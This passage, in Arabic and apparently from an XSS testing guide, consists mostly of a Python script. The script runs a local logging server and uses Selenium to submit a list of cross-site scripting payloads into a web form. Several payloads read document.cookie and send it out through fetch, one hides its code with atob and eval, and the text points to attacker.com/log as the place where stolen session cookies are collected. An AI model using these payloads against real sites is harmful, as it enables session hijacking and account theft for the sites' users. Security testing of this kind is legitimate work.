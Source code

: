   ```python
          query = urllib.parse.urlparse(self.path).query
          print(f"بيانات مستلمة: {urllib.parse.parse_qs(query)}")

      def do_POST(self):
          self.send_response(200)
          self.end_headers()
          content_length = int(self.headers['Content-Length'])
          post_data = self.rfile.read(content_length).decode()
          print(f"بيانات POST مستلمة: {post_data}")

  payloads = [
      "<script>alert('XSS')</script>",
      "<img src=x onerror=fetch('http://localhost:8000/log?c='+document.cookie)>",
      "<svg onload=eval(atob('YWxlcnQoJ1hTUycp'))>",
      "<a href=\"javascript:fetch('http://localhost:8000/log?c='+document.cookie)\">Click</a>",
      "\";fetch('http://localhost:8000/log?c='+document.cookie);//"
  ]

  driver = webdriver.Chrome()  # تأكد من تثبيت ChromeDriver
  target_url = "https://example.com/profile"
  input_field_id = "name-input"  # استبدل بمعرف حقل الإدخال

  try:
      driver.get(target_url)
      for payload in payloads:
          try:
              input_field = driver.find_element(By.ID, input_field_id)
              input_field.clear()
              input_field.send_keys(payload)
              input_field.submit()
              time.sleep(1)  # انتظر لمعالجة الإدخال
              print(f"تم إرسال: {payload}")
          except:
              print(f"فشل إرسال: {payload}")
  finally:
      driver.quit()

  server = HTTPServer(('localhost', 8000), LogServer)
  print("تشغيل الخادم على http://localhost:8000")
  server.serve_forever()
  ```
- **كيف يعمل**:
  - يُشغل خادمًا محليًا لتسجيل البيانات.
  - يستخدم `selenium` لمحاكاة إدخال الحقن في حقل (مثل حقل الاسم) وتقديمه.
  - يسجل البيانات المستلمة في الخادم عند تنفيذ الحقن.
- **متى يُستخدم؟**:
  - عند الحاجة لاختبار آلي لنقاط إدخال تتطلب تفاعل المتصفح.

#### ج. تحليل الاستجابات
- **المحاولات**:
  - قارن الاستجابات بناءً على:
    - **وحدة التحكم**: تحقق من ظهور تنبيهات أو أخطاء في Console.
    - **طلبات الشبكة**: تحقق من الطلبات المرسلة إلى `http://attacker.com/log`.
    - **تغييرات DOM**: تحقق من إعادة التوجيه أو تعديل الصفحة.
  - مثال: إذا تلقى الخادم `c=sessionid=abc123`، فهذا يؤكد نجاح الحقن.
- **كيف يعمل**:
  - يتم تسجيل الاستجابات لتحديد الحقن الناجحة.
- **متى يُستخدم؟**:
  - لتحديد النقاط القابلة للاستغلال.
